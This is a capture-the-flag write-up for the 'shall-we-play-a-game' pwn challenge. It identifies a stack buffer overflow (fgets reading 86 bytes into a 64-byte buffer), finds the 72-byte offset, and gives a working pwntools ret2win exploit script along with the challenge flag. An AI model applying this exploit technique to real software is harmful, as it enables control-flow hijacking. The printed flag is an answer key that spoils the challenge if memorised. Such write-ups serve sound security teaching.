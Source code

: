 ### shall-we-play-a-game

First lets check the file protections

```ascii
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Lets take a look at the decompiled code of the provided executable

![alt text](code.png)

![alt text](functions.png)

We need to call the global_thermo_nuclear_war() as it prints the flag

We can see that the fourth input is assigned 64 bytes but fgets() is reading in 86 bytes

So we have buffer overflow here, lets find the offset using cyclic pattern

![alt text](overflow.png)

We find that offset is at 72 bytes

Lets craft a payload

```python
#!/usr/bin/env python3

from pwn import *

exe = './chal'
elf = context.binary = ELF(exe,checksec=False)
context.log_level='debug'

host,port = 'gold.b01le.rs',4004

#p = process(exe)
p = remote(host,port)

padding = 72

payload = flat(
    asm('nop')*padding,#padding to reach EIP
    elf.symbols['global_thermo_nuclear_war'],
)

p.sendlineafter(b'FALKEN','hello')
p.recv()
p.sendlineafter(b'TODAY?','good')
p.recv()
p.sendlineafter(b'73?','no')
p.recv()
p.sendlineafter(b'GAME?',payload)
p.interactive()
```

And we get the flag

![alt text](flag.png)

**_flag : bctf{h0w\_@bo0ut_a_n1ce_g@m3_0f_ch3ss?\_ccb7a268f1324c84}_**
